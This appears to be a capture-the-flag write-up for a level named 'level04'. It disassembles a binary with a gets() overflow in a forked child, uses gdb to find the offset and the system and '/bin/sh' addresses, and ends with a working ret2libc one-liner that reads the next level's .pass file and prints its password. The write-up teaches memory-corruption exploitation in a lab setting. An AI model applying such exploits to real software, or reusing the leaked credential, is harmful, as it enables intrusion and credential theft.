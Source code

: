 important part of the elf:

    [...]
    0x080486d6 <+14>:    call   0x8048550 <fork@plt>
    0x080486db <+19>:    mov    %eax,0xac(%esp)
    [...]
    0x08048709 <+65>:    cmpl   $0x0,0xac(%esp)
    0x08048711 <+73>:    jne    0x8048769 <main+161>
    [...]
    0x08048757 <+143>:   lea    0x20(%esp),%eax
    0x0804875b <+147>:   mov    %eax,(%esp)
    0x0804875e <+150>:   call   0x80484b0 <gets@plt>
    0x08048763 <+155>:   jmp    0x804881a <main+338>
    0x08048768 <+160>:   nop
    0x08048769 <+161>:   lea    0x1c(%esp),%eax
    0x0804876d <+165>:   mov    %eax,(%esp)
    0x08048770 <+168>:   call   0x80484f0 <wait@plt>
    [...]

we see:
- a fork
- a gets functions at the end of the child that can override the return address
- a wait functions in the parent that will wait for the child to finish

to exploit this, we have to know the offset between the buffer and the return address, and the address of the system function, and the address of the string "/bin/sh"

to help to find answers to these questions, we can use gdb and the `set follow-fork-mode child` command to follow the child process

```bash
$ gdb level04
[...]
$ set follow-fork-mode child
$ b *main+150
Breakpoint 1 at 0x804875e
$ b *main+168
Breakpoint 2 at 0x8048770
$ r
[...]
Thread 2.1 "level04" hit Breakpoint 1, 0x0804875e in main ()
$ i r
[...]
esp            0xffffcd60          0xffffcd60
ebp            0xffffce18          0xffffce18
[...]
(gdb) print system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) info proc mapping
[...]
        0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
        0xf7fcc000 0xf7fcd000     0x1000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcd000 0xf7fcf000     0x2000   0x1a0000 /lib32/libc-2.15.so
        0xf7fcf000 0xf7fd0000     0x1000   0x1a2000 /lib32/libc-2.15.so
[...]
(gdb) find 0xf7e2c000,0xf7fcc000,"/bin/sh"
0xf7f897ec
1 pattern found.
```

calculate the offset between the buffer and the return address:

esp - ebp: `0xffffcd60 - 0xffffce18 = 0xb8` (184)

we know that the buffer for the gets is: `0x20` (32)

the is offset: `0xb8 - 0x20 = 0x98` (152) and we can add 4 bytes for the saved ebp

we can now write the exploit:

```bash
$ (python -c 'print("A"*156 + "\xd0\xae\xe6\xf7" + "\x90"*4 + "\xec\x97\xf8\xf7")' && echo cat /home/users/level05/.pass) | ./level04
Give me some shellcode, k
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```